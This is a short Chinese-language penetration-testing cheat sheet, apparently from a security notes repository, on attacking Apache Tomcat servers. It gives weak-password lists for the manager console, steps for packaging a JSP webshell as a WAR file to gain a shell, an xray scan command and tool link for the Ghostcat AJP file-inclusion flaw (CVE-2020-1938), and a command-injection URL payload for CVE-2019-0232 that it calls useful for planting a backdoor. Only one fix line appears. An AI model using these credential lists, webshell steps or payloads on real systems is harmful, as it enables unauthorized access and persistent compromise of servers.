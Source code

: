 ```yaml
---
title: Apache-Tomcat
---
```


## 应用简介
Java 是目前 Web 开发中最主流的编程语言，而 Tomcat 是当前最流行的 Java 中间件服务器之一

## 控制台弱口令

1、访问`ip:8080/manager/html`

用户名

```
tomcat
admin
test
sysadmin
```

密码

```
tomcat
Tomcat

admin
Admin
Admin@123
123456
654321
000000
111111
其它更多自己收集字典~
```

2、部署`war包`getshell

```bash
#shell.jsp单独放置一个目录，命令行下进入当前目录,打包成war包
jar -cvf login.war .\
```

找到 WAR file to deploy 这一项，上传war包后应用即可

## [CVE-2020-1938]-AJP文件包含

**漏洞概述**

```http
#影响版本 8009端口
Apache Tomcat 9.x < 9.0.31
Apache Tomcat 8.x < 8.5.51
Apache Tomcat 7.x < 7.0.100
Apache Tomcat 6.x
```

Ghostcat（幽灵猫） 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

**漏洞利用**

Tomcat AJP Connector 默认配置下即为开启状态，且监听在 0.0.0.0:8009，用长亭的Xray检测即可

```bash
xray servicescan --target 127.0.0.1:8009
```

一个比较全的Tomcat利用工具-https://github.com/hypn0s/AJPy

- WAR包 上传
- 利用CVE-2020-1938读取文件等

**修复建议**

关闭Tomcat AJP Connector，限制8009端口访问

## [CVE-2019-0232]-远程代码执行（鸡肋-可用来留后门）

**漏洞概述**

```http
#影响版本	条件：{系统为Windows，启用了CGI Servlet（默认为关闭）}
Tomcat 9.0.0~9.0.17
Tomcat 8.5.0~8.5.39
Tomcat 7.0.0~7.0.93
```

由于JRE将命令行参数传递给Windows的方式存在错误，会导致CGI Servlet受到远程执行代码的攻击

**漏洞利用**

```http
http://localhost:8080/cgi-bin/hello.bat?&net+user
```

https://github.com/pyn3rd/CVE-2019-0232